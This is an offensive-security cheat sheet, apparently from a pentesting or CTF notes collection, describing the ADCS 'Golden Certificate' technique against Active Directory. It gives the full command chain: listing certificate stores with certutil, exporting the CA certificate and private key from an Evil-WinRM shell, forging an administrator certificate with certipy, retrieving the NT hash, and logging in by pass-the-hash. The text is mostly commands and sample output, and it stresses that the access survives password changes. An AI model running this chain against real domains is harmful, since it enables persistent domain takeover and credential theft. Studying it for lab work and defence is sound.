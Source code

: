 # Golden Certificate

You can get full percistence in the domain if you get a certificate (from ADCS) wich includes de private key. This Golden Certificate can be used later to forge arbitrary certificate for any user in the domain.

Check certificates storages: 

`certutil -enumstore`

Check specific storage:

`certutil -store root` (or any store)

You will see multiple certificates. If any of those have `Signature test passed` and don't say anything about `Private key is NOT exportable`, like this example:

`
================ Certificate 8 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
No key provider information
  Provider = Microsoft Software Key Storage Provider
  Simple container name: Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  ERROR: missing key association property: CERT_KEY_IDENTIFIER_PROP_ID
Signature test passed
`

Then you may export this certificate:

`*Evil-WinRM* PS C:\programdata> certutil -exportPFX 75b2f4bbf31f108945147b466131bdca GoldenCertificate.pfx`

(Set password or just keep it empty.)

Now bring this file to your attacker machine, and use it to generate an administrator certificate (or any other user).

`certipy forge -ca-pfx 'GoldenCertificate.pfx' -upn 'administrator@<domain>'`

This should create brand new certificate.pfx you can use.

Finally use it to get NT hash of that user:

`certipy auth -pfx administrator_forged.pfx -dc-ip <ip> -domain <domain> -user Administrator`

Finally you just need to log in through pass the hash, using impacket suite, evil-winrm, etc.

`evil-winrm -i <ip> -u Administrator -H <NT hash>`

If users decide to change passwords, you can still forge and use certificates to get again the NT hash of that user.








